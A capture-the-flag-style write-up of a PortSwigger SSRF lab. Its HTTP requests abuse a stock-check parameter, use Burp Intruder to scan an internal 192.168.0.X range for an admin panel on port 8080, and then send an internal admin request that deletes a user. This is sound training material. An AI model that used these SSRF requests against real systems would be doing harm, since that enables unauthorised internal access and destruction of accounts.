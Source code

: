 # [Lab: Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

## Lab

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.

## Analysis

Same as [lab-1](./1.%20Basic%20SSRF%20against%20the%20local%20server.md)

## Exploit

1. burp's intercept:

    ```http
    POST /product/stock HTTP/1.1
    Host: 0a34000e0453e884c1de856c003300a9.web-security-academy.net

    stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1  
    ```

2. burp's intruder:

    - positions:

        ```http
        POST /product/stock HTTP/1.1
        Host: 0a34000e0453e884c1de856c003300a9.web-security-academy.net
        ...

        stockApi=http://192.168.0.§§:8080/admin
        ```

    - payloads: 0->255
    - result: with the payload 116, the response status code is 200
3. solve lab

    ```http
    POST /product/stock HTTP/1.1
    Host: 0a34000e0453e884c1de856c003300a9.web-security-academy.net
    ...

    stockApi=http://192.168.0.116:8080/admin/delete?username=carlos
    ```
